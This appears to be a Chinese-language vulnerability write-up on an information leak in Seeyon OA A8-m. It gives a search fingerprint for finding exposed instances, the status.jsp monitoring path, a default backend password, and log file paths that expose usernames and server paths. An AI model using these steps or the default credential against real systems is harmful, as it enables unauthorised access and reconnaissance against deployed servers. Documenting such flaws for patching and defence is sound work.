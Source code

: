 # 致远OA A8 status.jsp 信息泄露漏洞

## 漏洞描述

致远OA A8-m 存在状态监控页面信息泄露，攻击者可以从其中获取网站路径和用户名等敏感信息进一步攻击

## 漏洞影响 

<a-checkbox checked>致远OA A8-m</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="A8-m"</a-checkbox></br>

## 漏洞复现

访问监控页面

```plain
/seeyon/management/status.jsp
```

![img](../../../.vuepress/public/img/zhiyuan-32.png)



<a-checkbox checked>后台密码为 **WLCCYBD**[**@SEEYON** ]() </a-checkbox></br>

<a-checkbox checked>登录后通过如下url获得一些敏感信息</a-checkbox></br>

```plain
/seeyon/management/status.jsp
/seeyon/logs/login.log
/seeyon/logs/v3x.log
```

![img](../../../.vuepress/public/img/zhiyuan-33.png)



![img](../../../.vuepress/public/img/zhiyuan-34.png)



![img](../../../.vuepress/public/img/zhiyuan-35.png)